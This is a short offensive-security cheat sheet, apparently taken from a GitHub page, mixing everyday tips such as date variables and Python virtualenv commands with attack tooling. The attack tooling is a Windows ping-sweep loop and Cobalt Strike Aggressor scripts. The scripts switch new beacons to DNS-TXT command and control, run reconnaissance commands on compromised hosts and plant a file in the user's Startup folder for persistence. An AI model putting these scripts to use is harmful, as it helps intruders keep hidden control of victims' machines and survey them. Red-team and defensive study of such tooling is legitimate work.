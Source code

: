 Useful date/time variables to include in file names:
$(date +%Y-%m-%d-%H-%M-%S)

## Windows CLI
### Ping scan /24 range via loop
`FOR /L %i in (1,1,255) do @ping -n 1 <prefix>.%i | find "Reply"`

## Cobalt Strike Aggressor Scripting
### Automate setup for DNS beacon
```
on beacon_initial_empty {
	bnote($1,"Established: " . formatDate('MM/dd/yyyy HH:mm:ss (z)'));
	bmode($1, "dns-txt");
	bcheckin($1);
}
```
### Automate initial information gathering on new DNS beacon
```
on beacon_initial {
	binput($1, "Groups");
	bshell!($1, "whoami /groups");
	binput($1, "Processes");
	bshell!($1, "tasklist /v");
	binput($1, "Connections");
	bshell!($1, "netstat -na | findstr \"EST\"");
	binput($1, "System Info");
	bshell!($1, "systeminfo");
	binput($1, "DNS Cache");
	bshell!($1, "ipconfig /displaydns");
}
```
### Automate simple persistence on new DNS beacon
```
on beacon_initial {
	bcp($1, "FILEHERE", "c:\\users\\" . binfo($1, "user") . "\\appdata\\roaming\\microsoft\\windows\\start menu\\programs\\startup\\startfile.EXTHERE");
}
```
# Python virtual environments
## Install virtualenv
`pip install virtualenv`

## Create a new virtualenv
`virtualenv <directory>`
